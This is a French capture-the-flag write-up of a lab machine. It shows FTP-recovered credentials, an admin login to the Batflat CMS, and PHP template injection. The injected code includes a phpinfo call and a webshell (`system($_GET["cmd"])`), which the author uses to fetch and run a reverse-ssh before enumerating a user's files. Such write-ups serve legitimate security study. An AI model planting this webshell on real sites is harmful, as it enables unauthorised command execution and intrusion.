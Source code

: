 Bingo ! Sur ce FTP on trouve un fichier texte avec des identifiants :

> Hi Bruce!  
> 
> Here are the credentials for the website (you are a bit forgetful).  
> 
> I hope you didn't find 'Port Knocking' too difficult.  
> 
> By the way, you are meeting Dick at 19:00 for coffee before the party at home.  
> 
> USER: bruce  
> PASS: alfred_help_me (Hahahahahaha)

Je trouve la section administrateur à l'URL `/admin` et je peux me connecter via ces identifiants.

Il existe une vulnérabilité pour `Batflat` qui semble être de l'injection de code PHP : [Batflat CMS 1.3.6 - Remote Code Execution (Authenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/49573)

Mais j'ai choisis de trouver une autre méthode : le CMS propose un système de templates et en fouillant dans la documentation je vois qu'il est possible d'appeler du code PHP : [Docs - Batflat ~ lightweight, fast and easy CMS for free](https://batflat.org/docs)

Ainsi si j'édite le template de pied de page pour ajouter :

```php
{?= phpinfo() ?}
```

J'obtiens le phpinfo affiché en bas de page.

J'enchaine avec ce webshell :

```php
    <pre>{?= system($_GET["cmd"]) ?}</pre>
```

Qui me permet de rappatrier et exécuter un `reverse-ssh`. Une fois connecté je remarque que le CMS semble utiliser `sqlite` comme système de base de données (d'où le `flat` dans `Batflat` je suppose).

Pour info la base est à l'emplacement suivant mais je n'ai rien trouvé d'intéressant dedans :

```
/var/www/html/batflat/inc/data/database.sdb
```

Je passe donc à l'énumération des fichiers de `batman` sur le système :

```bash
www-data@waynemanor:/var/www/html/batflat$ find / -user batman -ls 2> /dev/null 
   924326   2760 -rw-rw-r--   1 batman   batman    2825216 Feb 14 12:39 /tmp/web.tar.gz
  1055614      4 drwxr-xr-x   5 batman   batman       4096 Apr 15  2021 /home/batman
  1055615      4 -rw-r--r--   1 batman   batman        220 Feb 25  2020 /home/batman/.bash_logout
  1055551      4 drwxrwxr-x   3 batman   batman       4096 Mar 26  2021 /home/batman/.local
  1055552      4 drwx------   3 batman   batman       4096 Mar 26  2021 /home/batman/.local/share
  1056105      4 -rw-r--r--   1 batman   batman        807 Feb 25  2020 /home/batman/.profile
  1056785      4 -rwx------   1 batman   batman       2117 Mar 28  2021 /home/batman/local.txt
  1049267      0 -rw-------   1 batman   batman          0 Apr 15  2021 /home/batman/.bash_history
  1055555      4 drwxrwxr-x   2 batman   batman       4096 Mar 26  2021 /home/batman/.web
  1055613      4 -rwxr-xr-x   1 batman   batman         89 Mar 26  2021 /home/batman/.web/script.sh
  1056782      4 drwx------   2 batman   batman       4096 Mar 26  2021 /home/batman/.cache
  1056784      4 -rw-rw-r--   1 batman   batman         66 Mar 26  2021 /home/batman/.selected_editor
```
